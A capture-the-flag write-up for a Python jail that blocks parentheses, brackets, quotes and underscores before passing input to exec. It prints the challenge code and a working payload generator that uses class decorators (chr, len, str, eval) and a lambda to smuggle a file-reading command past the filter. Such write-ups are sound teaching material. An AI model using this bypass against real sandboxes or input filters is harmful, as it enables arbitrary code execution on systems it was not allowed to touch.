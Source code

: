We're given 2 files:  
```python  
#!/usr/bin/env python3  
"""  
Wrapper that filters all input to the calculator program to make sure it
follows the blacklist.  
It is not necessary to fully understand this code. Just know it doesn't allow
any of the characters in the following string:  
"()[]{}_.#\"\'\\ABCDEFGHIJKLMNOPQRSTUVWXYZ"  
Check ti1337.py to see what the program actually does with valid input.  
"""

import subprocess, fcntl, os, sys, selectors  
os.chdir("app")  
p = subprocess.Popen(["python3", "ti1337.py"], stdin=subprocess.PIPE,
stdout=subprocess.PIPE, stderr=subprocess.PIPE)  
# set files descriptors to nonblocking and create selectors  
fcntl.fcntl(p.stdout, fcntl.F_SETFL, fcntl.fcntl(p.stdout, fcntl.F_GETFL) | os.O_NONBLOCK)  
fcntl.fcntl(sys.stdin, fcntl.F_SETFL, fcntl.fcntl(sys.stdin, fcntl.F_GETFL) | os.O_NONBLOCK)  
selector = selectors.DefaultSelector()  
selector.register(sys.stdin, selectors.EVENT_READ, 'stdin')  
selector.register(p.stdout, selectors.EVENT_READ, 'stdout')  
blacklist = "()[]{}_.#\"\'\\ABCDEFGHIJKLMNOPQRSTUVWXYZ"  
# until the program has finished  
while p.poll() == None:  
	events = selector.select()  
	for key, mask in events:  
		if key.data == 'stdin':  
			# write input  
			line = key.fileobj.readline()  
			for c in line:  
				if c in blacklist:  
					print("That doesn't seem like math!")  
					sys.exit()  
			p.stdin.write(bytes(line, encoding="utf-8"))  
			p.stdin.flush()  
		elif key.data == 'stdout':  
			# print output  
			output = key.fileobj.read()  
			sys.stdout.write(output.decode("utf-8"))  
			sys.stdout.flush()  
output, error = p.communicate()  
if error: sys.stdout.write(error.decode("utf-8"))  
sys.stdout.flush()  
```  
```python  
#!/usr/bin/env python3  
del __builtins__.__import__  
__builtins__.print("Welcome to the TI-1337! You can use any math operation and
variables with a-z.")  
_c = ""  
_l = __builtins__.input("> ")  
while _l != "":  
   # division -> floor division  
   _l = _l.replace("/", "//")  
   _c += _l+"\n"  
   _l = __builtins__.input("> ")  
_v = {}  
_v = __builtins__.set(__builtins__.dir())  
__builtins__.exec(_c)  
for _var in __builtins__.set(__builtins__.dir())-_v:  
   __builtins__.print(_var, "=", __builtins__.vars()[_var])  
```

The comment at the top explains the challenge. Basically, we can execute
remotely arbitrary code (what we send is `exec`ed), as long as it doesn't
contain any of `()[]{}_.#\"\'\\ABCDEFGHIJKLMNOPQRSTUVWXYZ`. Uppercase letters
are not particularly problematic - there's no such place where lowercase can't
be used. The real problem is that we can't call functions, access attributes
and setup magic methods (forbidden underscores).

I looked through Python syntax from the documentation and discovered two key
features that I could use for function execution. These are class definitions
(although without proper function definitions (lambda are allowed though) and
decorators).

This is how decorators basically work - these code snippets are equivalent:  
```python  
@some_function  
class c:  
		pass  
```  
```python  
class c:  
   pass  
c = some_function(c)  
```

If we find functions that operate on single arguments, we could make a
payload.

I decided not to dig far and settled on writting an encoder. This is encoder:  
```python  
def export(x):  
   return f"""@chr  
@len  
@str  
class c{'1'*(x-0x14)}:pass"""  
def encode(s):  
   if any(ord(x) < 0x14 for x in s):  
       raise ValueError('cannot encode chars less than %d' % 0x14)  
   return ['c'+'1'*(ord(x) - 0x14) for x in s]  
```

This makes classes with long enough names, so that we can make a character
with code (for instance) 40, we make an empty class, that has string
representation 40 characters long, later apply `chr` on it. Final phase is to
make a dummy class and apply a lambda function, that takes a single argument,
but doesn't use it, it returns sum of class names, which is later feeded into
`exec`. Full payload generating script:

```python  
def export(x):  
   return f"""@chr  
@len  
@str  
class c{'1'*(x-0x14)}:pass"""  
def encode(s):  
   if any(ord(x) < 0x14 for x in s):  
       raise ValueError('cannot encode chars less than %d' % 0x14)  
   return ['c'+'1'*(ord(x) - 0x14) for x in s]

payload = 'print(open("flag.txt").read())'  
for i in map(ord, set(payload)):  
   print(export(i))  
  
print('fff=lambda x:' + '+'.join(encode(payload)))  
print('@eval')  
print('@fff')  
print('class d:pass')  
print()  
print()  
print()  
```